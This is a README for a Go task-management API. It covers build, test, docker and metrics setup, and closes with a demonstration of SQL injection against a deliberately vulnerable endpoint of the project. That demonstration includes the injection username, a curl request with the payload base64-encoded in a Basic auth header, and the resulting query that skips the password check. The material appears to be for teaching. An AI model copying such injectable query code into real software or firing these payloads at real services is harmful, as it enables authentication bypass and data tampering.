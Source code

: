 ## Run / Build

---

Run only

```shell
make run
```

Build only

```shell
make build
```

## Docker-compose

---

```shell
make c.build
```

```shell
make c.up
```

## Docs

---

http://127.0.0.1:45222/doc/index.html

## Tests

---

```shell
make tests
```

## Metrics

---

### Prometheus

```yaml
# prometheus.yml

- job_name: api-tm
  scrape_interval: 15s
  static_configs:
    - targets:
      - 127.0.0.1:45222
```

**api_tm_request_http_requests_total** - total number of requests, their methods and paths.

![Total requests](docs/grafana-example.png)

## Files

- _docs/*_ - swagger files(OpenAPI)
- _configs/conf.toml_ - settings
- _scripts/create_tables.sql_ - postgres tables 
- _logs/app.log_ - api errors 

## Manual run / building / generation

---

#### OpenAPI(generation)

```shell
swag init -g cmd/app/main.go
```

#### Tests

```shell
go test -failfast ./...
```

#### Run only

```shell
go run cmd/app/main.go
```

#### Build and run

```shell
go build -o apitm cmd/app/main.go
```

```shell
./apitm
```

#### Docker(local DB)

```shell
docker build . -t apitm:v0.1
```

```shell
docker run --rm --network=host apitm:v0.1
```

#### Docker-compose

```shell
docker-compose build
```

```shell
docker-compose up
```

## Example SQL-injection

---

### Create new user -> qwerty:qwerty 

```shell
curl -u admin:admin --location 'http://127.0.0.1:45222/api/v1/manage/user' \
--header 'Content-Type: application/json' \
--data '{
    "username": "qwerty",
    "password": "qwerty"
}'
```

### Create task with injection

USERNAME - **qwerty'), false, 'SQL INJECTION', now(), now()) -- '**

PASSWORD - **any**

```shell
curl --location 'http://127.0.0.1:45222/api/v1/task/create-task-injection' \
--header 'Authorization: Basic cXdlcnR5JyksIGZhbHNlLCAnU1FMLWlJTkpFQ1RJT04nLCBub3coKSwgbm93KCkpIC0tICc6YW55' \
--header 'Content-Type: application/json' \
--data '{
    "title": "SQL INJECTION"
}'
```

#### Response - Internal Server Error(500)

```json
{
    "type": "INTERNAL",
    "comment": "create task"
}
```

#### But the task has been created. Because the request to the database:

```sql
INSERT INTO
    task(user_id, status, title, created, updated)
VALUES
    ((SELECT user_id FROM auth WHERE username = 'qwerty'), false, 'SQL INJECTION', now(), now()) -- '' AND password = 'df69d4a3aa4eca782c7cb526841c7e60fb6015806c2ef41df95bfa1afe8427a6'), false, 'SQL INJECTION', now(), now()) RETURNING  task_id  
```

#### DB rows

![Example SQL-injection](docs/sql-injection.png)




